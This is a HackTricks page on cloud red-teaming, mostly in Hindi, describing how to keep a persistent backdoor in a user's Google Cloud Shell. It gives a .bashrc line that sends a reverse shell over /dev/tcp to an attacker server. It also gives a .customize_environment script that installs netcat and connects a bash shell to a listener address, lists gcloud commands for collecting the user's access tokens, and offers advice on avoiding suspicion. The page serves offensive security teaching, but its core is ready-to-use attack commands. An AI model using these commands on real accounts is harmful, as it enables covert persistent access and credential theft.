 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) आपको आपके क्लाउड संसाधनों तक सीधे आपके ब्राउज़र से कमांड-लाइन पहुंच प्रदान करता है, बिना किसी संबंधित लागत के।

आप **वेब कंसोल** से या **`gcloud cloud-shell ssh`** चलाकर Google का Cloud Shell एक्सेस कर सकते हैं।

इस कंसोल में हमलावरों के लिए कुछ दिलचस्प क्षमताएँ हैं:

1. **कोई भी Google उपयोगकर्ता जिसे Google Cloud तक पहुंच है** एक पूरी तरह से प्रमाणित Cloud Shell उदाहरण तक पहुंच रखता है (सेवा खाते, यहां तक कि संगठन के मालिक होने पर भी, ऐसा कर सकते हैं)।
2. कहा गया उदाहरण **कम से कम 120 दिनों तक** अपनी होम डायरेक्टरी बनाए रखेगा यदि कोई गतिविधि नहीं होती है।
3. उस उदाहरण की गतिविधि की निगरानी के लिए **किसी संगठन के लिए कोई क्षमता नहीं है**।

इसका मतलब यह है कि एक हमलावर उपयोगकर्ता की होम डायरेक्टरी में एक बैकडोर रख सकता है और जब तक उपयोगकर्ता हर 120 दिनों में GC Shell से कनेक्ट करता है, बैकडोर जीवित रहेगा और हमलावर को हर बार इसे चलाने पर एक शेल मिलेगा, बस ऐसा करके:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

होम फ़ोल्डर में एक और फ़ाइल है जिसे **`.customize_environment`** कहा जाता है, जो, यदि मौजूद है, तो **हर बार** उपयोगकर्ता **क्लाउड शेल** का उपयोग करते समय **निष्पादित** होगी (जैसे पिछले तकनीक में)। बस पिछले बैकडोर या निम्नलिखित में से एक को डालें ताकि उपयोगकर्ता "नियमित रूप से" क्लाउड शेल का उपयोग करते समय स्थिरता बनाए रखी जा सके:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
यह ध्यान रखना महत्वपूर्ण है कि **जब पहली बार कोई क्रिया की जाती है जिसमें प्रमाणीकरण की आवश्यकता होती है**, तो उपयोगकर्ता के ब्राउज़र में एक पॉप-अप प्राधिकरण विंडो प्रकट होती है। इस विंडो को स्वीकार करना आवश्यक है इससे पहले कि कमांड चल सके। यदि कोई अप्रत्याशित पॉप-अप प्रकट होता है, तो यह संदेह पैदा कर सकता है और संभावित रूप से उपयोग की जा रही स्थिरता विधि को खतरे में डाल सकता है।
{% endhint %}

यह पॉप-अप है जो `gcloud projects list` को क्लाउड शेल (हमलावर के रूप में) से निष्पादित करने पर उपयोगकर्ता सत्र में देखा गया:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

हालांकि, यदि उपयोगकर्ता ने सक्रिय रूप से क्लाउडशेल का उपयोग किया है, तो पॉप-अप नहीं दिखाई देगा और आप **उपयोगकर्ता के टोकन एकत्र कर सकते हैं**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH कनेक्शन कैसे स्थापित किया जाता है

बुनियादी रूप से, इन 3 API कॉल का उपयोग किया जाता है:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (यह आपको आपके द्वारा स्थानीय रूप से बनाए गए सार्वजनिक कुंजी को जोड़ने के लिए कहेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (यह आपको इंस्टेंस शुरू करने के लिए कहेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (यह आपको गूगल क्लाउड शेल का आईपी बताएगा)

लेकिन आप [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) में और जानकारी प्राप्त कर सकते हैं।

## संदर्भ

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
